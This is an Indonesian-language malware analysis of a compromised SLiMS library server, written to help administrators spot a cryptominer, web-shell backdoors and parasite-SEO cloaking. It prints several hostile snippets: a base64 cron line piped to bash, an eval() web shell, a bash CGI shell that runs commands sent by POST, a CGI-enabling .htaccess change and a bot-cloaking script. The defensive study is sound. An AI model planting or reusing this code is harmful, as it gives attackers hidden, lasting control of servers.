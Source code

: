 # 🔬 Studi Kasus: Ciri dan Cara Kerja Malware pada SLiMS Bulian

Dokumen ini menganalisis anatomi serangan siber berlapis pada instalasi SLiMS. Studi kasus ini membedah tiga jenis malware berbeda yang ditemukan, cara kerjanya, dan jejak yang ditinggalkan penyerang. Tujuannya adalah untuk memberikan pemahaman mendalam agar administrator sistem dapat mengenali tanda-tanda serupa.

## 🕵️ Profil Penyerang dan Vektor Serangan

* **🆔 Atribusi Penyerang**: Aktivitas serangan diidentifikasi berasal dari grup yang menamakan dirinya "Team Anon Force", terdeteksi melalui signature `User-Agent` unik yang mereka gunakan saat memindai server.
* **🛠️ Taktik**: Penyerang menggunakan alat pemindai otomatis untuk mencari kelemahan umum pada aplikasi web, tidak hanya SLiMS tetapi juga CMS lain seperti WordPress.
* **🔓 Vektor Serangan Utama**: Celah keamanan yang dieksploitasi bukanlah dari SLiMS itu sendiri, melainkan dari konfigurasi server yang lemah, terutama:
    * **Izin File yang Lemah**: Pengguna web server (`www-data`) memiliki hak tulis yang berlebihan, memungkinkan penyerang untuk membuat dan memodifikasi file di berbagai direktori.
    * **Kelemahan Unggah File**: Adanya kemungkinan celah pada komponen atau direktori yang tidak aman sehingga memungkinkan penyerang mengunggah skrip berbahaya.

## ⛏️ Ancaman #1: Malware Penambang Kripto (Persistensi Jangka Panjang)

Ini adalah infeksi paling lama dan paling tersembunyi, telah aktif selama lebih dari dua tahun tanpa terdeteksi.

### 👀 Ciri-ciri
* Penggunaan CPU server yang tinggi dan tidak wajar.
* Ditemukannya file binary mencurigakan berukuran besar (~2.8MB) di direktori tersembunyi.
* Adanya tugas terjadwal (*cron job*) yang tidak dikenal pada pengguna sistem `www-data`.

### ⚙️ Cara Kerja
1.  **⏰ Persistensi melalui Cron Job**: Malware ini memastikan dirinya tetap aktif dengan menambahkan sebuah perintah pada `cron tab` milik user `www-data`. Perintah ini diatur untuk berjalan secara otomatis setiap jam.
2.  **🎭 Obfuscation (Penyamaran)**: Perintah di dalam `cron` disamarkan menggunakan `base64` agar tidak mudah dibaca oleh administrator sistem.
3.  **👻 Eksekusi Tersembunyi**: Perintah `cron` tersebut akan mendekode dan menjalankan file binary malware.
4.  **🥸 Menyamarkan Proses**: Setelah berjalan, proses malware ini menyamarkan dirinya sebagai proses kernel yang terlihat normal, seperti `[raid5wq]`, untuk menghindari deteksi saat administrator memeriksa proses yang aktif.

**Contoh Skrip di Crontab (`www-data`)**
```bash
# PERINGATAN: INI ADALAH CONTOH KODE BERBAHAYA
# Perintah ini mendekode string base64 yang panjang (dipotong di sini) 
# lalu menjalankannya melalui bash.
0 * * * * { echo L3Vz...udWxsAo=|base64 -d|bash;} 2>/dev/null #defunct-kernel
```

## 🚪 Ancaman #2: Backdoor & Web Shell (Akses Penuh ke Server)

Penyerang menanamkan setidaknya dua jenis backdoor berbeda untuk memastikan mereka selalu memiliki akses ke server.

### 📄 Jenis A: Web Shell PHP Terenkripsi (Contoh: `betawinesec.php`)

Ini adalah backdoor dalam satu file PHP yang sangat sulit dianalisis karena teknik penyamaran berlapis.

* **Ciri-ciri**: Sebuah file PHP dengan ukuran besar (~1.5MB) yang isinya tampak seperti teks acak.
* **Cara Kerja (Teknik Obfuscation 🪆)**:
    * **Lapisan Enkripsi**: Kode inti dienkripsi menggunakan metode enkripsi kuat seperti AES-256-CBC.
    * **Lapisan Kompresi**: Data terenkripsi tersebut kemudian dikompres menggunakan `gzuncompress` untuk membuatnya lebih kecil.
    * **Lapisan Eksekusi**: Fungsi `eval()` digunakan sebagai pemicu akhir untuk mendekripsi, mendekompresi, dan kemudian menjalankan kode berbahaya yang tersembunyi. Alurnya adalah: Teks Acak ➡️ didekripsi ➡️ didekompresi ➡️ Kode PHP Jahat ➡️ dieksekusi ⚡️.

**Contoh Konseptual Skrip Web Shell Terenkripsi**
```php
<?php
// PERINGATAN: INI ADALAH CONTOH KONSEPTUAL DARI KODE BERBAHAYA

// Layer 3: Payload yang dienkripsi dan dikompres (string acak)
$encrypted_payload = '... string panjang berisi kode terenkripsi ...';
$key = 'kunci_rahasia_penyerang';
$iv = '... initialization vector ...';

// Layer 2: Dekripsi dan Dekompresi
$decrypted_payload = openssl_decrypt($encrypted_payload, 'aes-256-cbc', $key, 0, $iv);
$uncompressed_code = gzuncompress($decrypted_payload);

// Layer 1: Eksekusi kode berbahaya yang sudah bersih
eval($uncompressed_code); 
?>
```

### 🧰 Jenis B: ALFA Backdoor Suite

Ini adalah kumpulan skrip yang lebih canggih, memberikan penyerang fleksibilitas untuk menjalankan perintah menggunakan berbagai bahasa pemrograman.

* **Ciri-ciri**:
    * Ditemukannya direktori aneh (misal: `ALFA_DATA`) di dalam direktori SLiMS yang seharusnya tidak dapat dieksekusi, seringkali disamarkan di dalam direktori `files` atau `repository`.
    * Berisi beberapa file skrip seperti `py.alfa` (Python), `bash.alfa` (Bash), dan `perl.alfa` (Perl).
    * Terdapat modifikasi pada file `.htaccess` yang menyertakan "tanda tangan" dari pembuatnya, seperti "Sole Sad & Invisible".
* **Cara Kerja**: Penyerang memodifikasi `.htaccess` untuk mengaktifkan `ExecCGI` dan menambahkan `AddHandler` untuk ekstensi `.alfa`. Ini memerintahkan server untuk mengeksekusi file-file tersebut sebagai skrip.

**Contoh Skrip `.htaccess`**
```apache
# PERINGATAN: INI ADALAH CONTOH KONFIGURASI BERBAHAYA
# Signature: Sole Sad & Invisible
Options +ExecCGI
AddHandler cgi-script .alfa
```

**Contoh Konseptual Skrip `bash.alfa`**
```bash
#!/bin/bash
# PERINGATAN: INI ADALAH CONTOH KONSEPTUAL DARI KODE BERBAHAYA

echo "Content-Type: text/plain"
echo ""

# Membaca data yang dikirim oleh penyerang melalui POST
read POST_STRING

# Mendekode perintah dari base64 dan menjalankannya
COMMAND=$(echo "$POST_STRING" | base64 -d)
eval "$COMMAND"
```

## 🎣 Ancaman #3: Parasite SEO & Cloaking (Manipulasi Mesin Pencari)

Ini adalah tujuan akhir dari serangan setelah penyerang mendapatkan akses, yaitu memanfaatkan reputasi domain untuk mempromosikan konten spam.

### 👀 Ciri-ciri
* File `index.php` di direktori utama dimodifikasi, sedangkan file `index.php` di semua subfolder dihapus.
* Terdapat **file PHP baru** (misalnya, `home.php`) yang berfungsi sebagai halaman spam, berisi kode HTML kompleks yang dioptimalkan untuk SEO.
* Saat dicek di Google, situs Anda muncul untuk kata kunci judi, namun saat dikunjungi langsung, tampilannya normal.

### ⚙️ Cara Kerja
1.  **🎭 Cloaking**: Skrip `index.php` yang telah dimodifikasi berisi logika untuk mendeteksi pengunjung. Ia memeriksa `User-Agent` dari setiap permintaan yang masuk.
2.  **📈 Parasite SEO**: File `home.php` sengaja dirancang untuk mendapat peringkat tinggi di Google. File ini diisi dengan kata kunci, tautan keluar, dan metadata *Structured Data* (JSON-LD) yang relevan dengan judi online. Dengan "membonceng" pada domain Anda yang mungkin memiliki reputasi baik, halaman spam ini bisa dengan cepat muncul di halaman pertama hasil pencarian.

**Contoh Konseptual Skrip Cloaking di `index.php`**
```php
<?php
// PERINGATAN: INI ADALAH CONTOH KONSEPTUAL DARI KODE BERBAHAYA

$user_agent = $_SERVER['HTTP_USER_AGENT'];
$bot_list = array("Googlebot", "Bingbot", "YandexBot");
$is_bot = false;

foreach ($bot_list as $bot) {
    if (stripos($user_agent, $bot) !== false) {
        $is_bot = true;
        break;
    }
}

if ($is_bot) {
    // 🤖 Jika bot, tampilkan halaman spam SEO
    include 'home.php'; 
} else {
    // 👤 Jika pengunjung biasa, tampilkan konten SLiMS yang asli
    include 'old.php'; 
}
?>
```
